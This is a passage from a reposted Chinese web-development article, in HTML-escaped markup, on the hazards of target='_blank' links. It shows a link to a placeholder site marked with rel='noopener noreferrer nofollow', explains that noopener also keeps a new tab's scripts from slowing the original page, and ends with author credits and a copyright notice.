data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer nofollow&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h1 id="articleHeader10">&#x6027;&#x80FD;</h1><p>&#x6700;&#x540E;&#xFF0C;&#x518D;&#x6765;&#x8BF4;&#x8BF4;&#x6027;&#x80FD;&#x95EE;&#x9898;&#x3002;</p><p>&#x5982;&#x679C;&#x7F51;&#x7AD9;&#x4F7F;&#x7528;&#x4E86; <code>&lt;a target=&quot;_blank&quot;&gt;</code>&#xFF0C;&#x90A3;&#x4E48;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x7684;&#x6027;&#x80FD;&#x5C06;&#x4F1A;&#x5F71;&#x54CD;&#x5230;&#x5F53;&#x524D;&#x9875;&#x9762;&#x3002;&#x6B64;&#x65F6;&#x5982;&#x679C;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x4E2D;&#x6267;&#x884C;&#x4E86;&#x4E00;&#x4E2A;&#x975E;&#x5E38;&#x5E9E;&#x5927;&#x7684; JavaScript &#x811A;&#x672C;&#xFF0C;&#x90A3;&#x4E48;&#x539F;&#x59CB;&#x6807;&#x7B7E;&#x9875;&#x4E5F;&#x4F1A;&#x53D7;&#x5230;&#x5F71;&#x54CD;&#xFF0C;&#x4F1A;&#x51FA;&#x73B0;&#x5361;&#x987F;&#x7684;&#x73B0;&#x8C61;&#xFF08;&#x5F53;&#x7136;&#x4E0D;&#x81F3;&#x4E8E;&#x5361;&#x6B7B;&#xFF09;&#x3002;</p><p>&#x800C;&#x5982;&#x679C;&#x5728;&#x94FE;&#x63A5;&#x4E2D;&#x52A0;&#x5165;&#x4E86; <code>noopener</code>&#xFF0C;&#x5219;&#x6B64;&#x65F6;&#x4E24;&#x4E2A;&#x6807;&#x7B7E;&#x9875;&#x5C06;&#x4F1A;&#x4E92;&#x4E0D;&#x5E72;&#x6270;&#xFF0C;&#x4F7F;&#x5F97;&#x539F;&#x9875;&#x9762;&#x7684;&#x6027;&#x80FD;&#x4E0D;&#x4F1A;&#x53D7;&#x5230;&#x65B0;&#x9875;&#x9762;&#x7684;&#x5F71;&#x54CD;&#x3002;</p><hr><blockquote>&#x6587; / jinliming2<br>&#x4E00;&#x6761;&#x5BF9;&#x65B0;&#x9C9C;&#x4E8B;&#x7269;&#x5145;&#x6EE1;&#x4E86;&#x597D;&#x5947;&#x5FC3;&#x7684;&#x54B8;&#x9C7C;<p>&#x7F16; / &#x8367;&#x58F0;</p></blockquote><p>&#x672C;&#x6587;&#x5DF2;&#x7531;&#x4F5C;&#x8005;&#x6388;&#x6743;&#x53D1;&#x5E03;&#xFF0C;&#x7248;&#x6743;&#x5C5E;&#x4E8E;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#x3002;&#x6B22;&#x8FCE;&#x6CE8;&#x660E;&#x51FA;&#x5904;&#x8F6C;&#x8F7D;&#x672C;&#x6587;&#x3002;&#x672C;&#x6587;&#x94FE;&#x63A5;&#xFF1A;<a href="https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/" rel="nofollow noreferrer" target="_blank">https://knownsec-fed.com/2018...</a></p><p>&#x60F3;&#x8981;&#x8BA2;&#x9605;&#x66F4;&#x591A;&#x6765;&#x81EA;&#x77E5;&#x9053;&#x521B;&#x5B87;&#x5F00;&#x53D1;&#x4E00;&#x7EBF;&#x7684;&#x5206;&#x4EAB;&#xFF0C;&#x8BF7;&#x641C;&#x7D22;&#x5173;&#x6CE8;&#x6211;&#x4EEC;&#x7684;&#x5FAE;&#x4FE1;&#x516C;&#x4F17;&#x53F7;&#xFF1A;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#xFF08;KnownsecFED&#xFF09;&#x3002;&#x6B22;&#x8FCE;&#x7559;&#x8A00;&#x8BA8;&#x8BBA;&#xFF0C;&#x6211;&#x4EEC;&#x4F1A;&#x5C3D;&#x53EF;&#x80FD;&#x56DE;&#x590D;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbgVle?w=296&amp;h=295" src="https://static.alili.tech/img/bVbgVle?w=296&amp;h=295" alt="" title="" style="cursor:pointer"></span></p><p>&#x6B22;&#x8FCE;&#x70B9;&#x8D5E;&#x3001;&#x6536;&#x85CF;&#x3001;&#x7559;&#x8A00;&#x8BC4;&#x8BBA;&#x3001;&#x8F6C;&#x53D1;&#x5206;&#x4EAB;&#x548C;&#x6253;&#x8D4F;&#x652F;&#x6301;&#x6211;&#x4EEC;&#x3002;&#x6253;&#x8D4F;&#x5C06;&#x88AB;&#x5B8C;&#x5168;&#x8F6C;&#x4EA4;&#x7ED9;&#x6587;&#x7AE0;&#x4F5C;&#x8005;&#x3002;</p><p>&#x611F;&#x8C22;&#x60A8;&#x7684;&#x9605;&#x8BFB;&#x3002;</p>
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，
本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。
原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
你不曾察觉的隐患：危险的 target="_blank" 与 “opener”

## 原文链接
[https://segmentfault.com/a/1190000016421263](https://segmentfault.com/a/1190000016421263)

